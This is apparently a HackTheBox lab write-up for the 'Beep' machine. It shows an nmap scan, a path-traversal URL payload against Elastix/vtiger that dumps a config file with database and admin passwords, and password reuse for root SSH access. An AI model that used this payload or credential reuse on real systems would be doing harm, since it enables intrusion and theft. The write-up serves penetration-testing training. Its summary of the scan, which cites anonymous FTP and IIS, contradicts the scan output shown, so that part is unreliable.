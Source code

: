 ```yaml
---
layout: default
title: "Beep"
tags: hackthebox linux easy
---
```


| OS       | Difficulty | Points | Release Date  | IP Address  |
|----------|------------|--------|---------------|-------------|
| Linux    | Easy       | 20     | 15 March 2017 | 10.10.10.7  |



# Skills

>* NMap
>* Local File Inclusion
>* SSH

# Information Gathering

## Nmap (Port Scan)

```bash
sudo nmap -A -T4 -p- 10.10.10.7
```

This was the initial nmap scan. The key things to note are:
>* ftp-anon: Anonymous FTP login allowed (FTP code 230)
>* Files accessible from Anonymous login
>* 80/tcp open  http    Microsoft IIS httpd 7.5

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) STLS UIDL TOP EXPIRE(NEVER) PIPELINING USER AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: RIGHTS=kxte Completed LISTEXT QUOTA ID OK MULTIAPPEND IMAP4 STARTTLS UIDPLUS LITERAL+ URLAUTHA0001 X-NETSCAPE CONDSTORE MAILBOX-REFERRALS CATENATE LIST-SUBSCRIBED IDLE NAMESPACE THREAD=REFERENCES SORT ANNOTATEMORE THREAD=ORDEREDSUBJECT BINARY RENAME IMAP4rev1 SORT=MODSEQ NO CHILDREN ACL UNSELECT ATOMIC
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-14T01:36:36+00:00; +1m40s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=38075%PV=Y%DS=2%DC=T%G=Y%TM=5F0D0C5
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=C3%GCD=1%ISR=CF%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1m39s

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   24.28 ms 10.10.14.1
2   25.11 ms 10.10.10.7
2   26.88 ms 10.10.10.5
```

# Exploitation

## Elastix LFI Exploit

```bash 
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Exploit Source: https://www.exploit-db.com/exploits/37637

After researching the services running on the machine, I discovered that a service called "Elastix" (an interface tool for Aesterix based PBX's) wsa vulnerable to local file inclusion meaning that I was able to read any of the files on the machine. So, as you can see from the URL above, I manipulated the current_language parameter in the graphql file to read out the servers amportal config file, that would then give me the database usernames and passwords.

```bash

# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER

AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

## SSh'ing in

Now, admittedly I think I got lucky on this one, because it just so happened that the root password for the box was also in this file. So, using the command above, I was simply able to use SSH to gain access to the root account on the machine.

```bash
$ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7

root@10.10.10.7s password: 
Last login: Tue Jul 14 04:31:58 2020 from 10.10.14.23

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# 
```

# User Flag

```bash
[root@beep ~]# cd /
[root@beep /]# cat $(find -iname "user.txt")
```

# Root Flag

```bash
[root@beep /]# cat $(find -iname "root.txt")
```